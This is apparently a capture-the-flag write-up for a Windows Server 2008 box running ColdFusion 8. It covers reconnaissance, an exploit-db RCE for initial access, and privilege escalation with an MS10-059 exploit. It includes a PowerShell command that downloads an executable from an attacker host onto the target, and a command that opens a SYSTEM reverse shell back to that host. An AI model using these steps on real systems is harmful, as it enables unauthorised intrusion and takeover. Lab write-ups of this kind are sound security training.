 1,Recon
port scan
```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

It is clear that service `Microsoft Windows RPC` and `FMTP` is opened.
Firstly, when we check the service of port 8500, we would redirect to this page
![](images/Pasted%20image%2020241101013107.png)

Then we can find the interesting page `/CFIDE/administrator`

![](images/Pasted%20image%2020241101013046.png)

It gives us the version of this service: `ADOBE COLDFUSION 8`
That means we can try to search the exploit of that from exploit-db.
`Adobe ColdFusion 8 - Remote Command Execution (RCE)`
That looks like a perfect one for us to get the shell.

Then when we run the exploit script and we can get the shell as tolis

2, shell as SYSTEM
By checking the sysinfo, we find the version of this machine
```
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User

System Type:               x64-based PC
```

Given the complete lack of hotfixes, this is likely vulnerable to an exploit. I can use the sysinfo results to run Windows Exploit Suggester.

I’ll also need to install the Python xlrd library with python -m pip install xlrd.

PS:This is a python2 program.

`/opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2024-11-1-mssb.xls --systeminfo sysinfo` 
```
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

Looking at those, as I’m not as interested in MSF modules to start, and as IE is likely to require user interaction, ones to look into are:
```
MS10-047
MS10-059
MS10-061
MS10-073
MS11-011
MS13-005
```

I did some googling around for exploit code and found this GitHub from egre55 that included an exploit for MS10-059. I was particularly drawn to the fact that this binary requires an IP and port to connect to. Many of the exploits will start a new cmd as SYSTEM, which is nice if you are standing at the computer, but not so useful from a remote shell.

I downloaded the binary (while it’s never a great idea to run exes downloaded directly from the internet, for a CTF environment, I’m willing to run it), and we need to upload it to target machine.

`PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.17:8000/Chimichurri.exe', 'C:\ColdFusion8\wwwroot\CFIDE\ch.exe')"`

Then just handle the nc and run the exploit script
`ch.exe 10.10.16.17 443`

Then we can get the SYSTEM shell.




